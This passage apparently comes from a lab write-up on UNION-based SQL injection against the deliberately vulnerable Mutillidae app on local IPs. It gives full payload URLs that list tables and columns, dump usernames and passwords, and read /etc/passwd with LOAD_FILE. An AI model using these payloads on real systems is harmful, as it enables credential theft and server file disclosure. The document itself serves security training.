 Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/sathyaa22/sqlinjection/assets/140483368/651855b8-3f92-4148-b62f-38356faced36)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/sathyaa22/sqlinjection/assets/140483368/a56b2569-1143-4981-9381-3743321843da)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![image](https://github.com/sathyaa22/sqlinjection/assets/140483368/2659bdf5-a1fc-4894-8255-83d3b103ff58)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/sathyaa22/sqlinjection/assets/140483368/4ef15324-2b13-4ef0-943d-c5559b98fe48)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/sathyaa22/sqlinjection/assets/140483368/d1414d8c-d5b6-4bb1-8b6e-665ad9a850c3)
